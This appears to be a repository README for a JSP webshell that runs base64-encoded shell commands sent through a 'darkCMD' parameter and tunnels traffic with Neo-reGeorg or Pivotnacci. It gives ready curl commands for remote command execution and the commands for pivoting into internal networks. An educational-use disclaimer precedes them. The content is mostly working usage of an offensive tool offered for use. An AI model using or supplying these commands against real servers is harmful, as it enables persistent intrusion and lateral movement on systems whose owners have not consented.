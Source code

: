 !!! Disclaimer !!! 

- The authors do not have any responsibility and/or liability for how you will use this information and the source code!
- Everything that anyone can find in this repository is only for educational and research purposes, and the authors have no responsibility for how you will use the data found.

JSP webshell with pivoting via Neo-reGeorg or Pivotnacci

1) Command exec via GET or POST

command(s) should be encoded in base64 (GET or POST) to support control operators, ex: id && ls -lah /

- curl -s 'http://127.0.0.1:8080/jsp-regeorg.jsp?uuid=form&darkCMD=aWQgJiYgbHMgLWxhaCAvCg=='
- curl -s -X POST -d 'uuid=form&darkCMD=aWQgJiYgbHMgLWxhaCAvCg==' -H 'Content-Type: application/x-www-form-urlencoded' 'http://127.0.0.1:8080/jsp-regeorg.jsp'
- curl -s 'http://127.0.0.1:8080/jsp-pivotnacci.jsp?uuid=form&darkCMD=aWQgJiYgbHMgLWxhaCAvCg=='
- curl -s -X POST -d 'uuid=form&darkCMD=aWQgJiYgbHMgLWxhaCAvCg==' -H 'Content-Type: application/x-www-form-urlencoded' 'http://127.0.0.1:8080/jsp-pivotnacci.jsp'


2.a) Pivoting usage Neo-reGeorg -> jsp-regeorg.jsp

pivoting using Neo-reGeorg (5.0.1), for other versions you have to update the relevant parts in the jsp file

- python neoreg.py -u 'http://127.0.0.1:8080/jsp-regeorg.jsp?uuid=test' -k PASSWORD -vvvvvvvv

2.b) Pivoting usage Pivotnacci -> jsp-pivotnacci.jsp

pivoting using pivotnacci (0.0.2), for other versions you have to update the relevant parts in the jsp file

- pivotnacci http://127.0.0.1:8080/jsp-pivotnacci.jsp --password PASSWORD -vvvv
